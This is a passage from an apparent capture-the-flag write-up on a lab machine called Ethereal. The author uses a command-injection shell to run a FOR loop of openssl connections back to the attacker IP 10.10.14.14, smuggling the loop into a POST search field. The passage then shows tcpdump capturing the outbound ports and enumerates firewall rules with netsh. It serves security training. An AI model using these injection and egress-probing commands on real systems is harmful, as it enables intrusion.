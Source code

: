 #### For Loop On Ethereal

I added a `quite` command to the shell so I could do commands that don't
require output over dns. Running a FOR loop inside the FOR loop used by
the DNS was messing something up. Now I can do this:



    ethereal> quiet FOR /L %G IN (1,1,200) DO (c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:%G)



That will try to connect to me on all the ports 1-200, by sending a POST
that has a search field that looks like
`search=& ( FOR /L %G IN (1,1,200) DO (c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:%G) )`.

I'll watch for tcp syn packets from 10.10.10.106 in `tcpdump`:



    root@kali# tcpdump -ni tun0 "src host 10.10.10.106 and tcp[tcpflags] == (tcp-syn)"
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    17:56:07.919571 IP 10.10.10.106.49754 > 10.10.14.14.73: Flags [S], seq 793376072, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    17:56:08.528789 IP 10.10.10.106.49754 > 10.10.14.14.73: Flags [S], seq 793376072, win 8192, options [mss 1357,nop,nop,sackOK], length 0
    17:56:53.276709 IP 10.10.10.106.49817 > 10.10.14.14.136: Flags [S], seq 2392131827, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    17:56:54.275185 IP 10.10.10.106.49817 > 10.10.14.14.136: Flags [S], seq 2392131827, win 8192, options [mss 1357,nop,nop,sackOK], length 0



I get connections back on two ports, 73 and 136.

#### Firewall

I'm going to use the `netsh advfirewall` command to print the firewall
rules, but I'm going to just get the name lines (using `findstr`,
Window's `grep` equivalent), because my shell is so slow:



    ethereal> cmd /c "netsh advfirewall firewall show rule name=all|findstr Name:"
    Rule Name: @{Microsoft.XboxGameCallableUI_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.XboxGameCallableUI/resources/PkgDisplayName}
    Rule Name: @{Microsoft.Windows.Apprep.ChxApp_1000.14393.2339.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Apprep.ChxApp/resources/DisplayName}
    Rule Name: @{Microsoft.LockApp_10.0.14393.2068_neutral__cw5n1h2txyewy?ms-resource://Microsoft.LockApp/resources/AppDisplayName}
    Rule Name: @{Microsoft.AccountsControl_10.0.14393.2068_neutral__cw5n1h2txyewy?ms-resource://Microsoft.AccountsControl/Resources/DisplayName}
    Rule Name: @{Microsoft.Windows.Cortana_1.7.0.14393_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Cortana/resources/PackageDisplayName}
    Rule Name: @{Microsoft.Windows.Cortana_1.7.0.14393_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Cortana/resources/PackageDisplayName}
    Rule Name: @{Microsoft.Windows.ShellExperienceHost_10.0.14393.2068_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.ShellExperienceHost/resources/PkgDisplayName}
    Rule Name: @{Microsoft.Windows.CloudExperienceHost_10.0.14393.1066_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
    Rule Name: @{Microsoft.Windows.CloudExperienceHost_10.0.14393.1066_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
    Rule Name: @{Microsoft.AAD.BrokerPlugin_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
    Rule Name: @{Microsoft.AAD.BrokerPlugin_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
    Rule Name: FTP (non-SSL)
    Rule Name: Allow ICMP Reply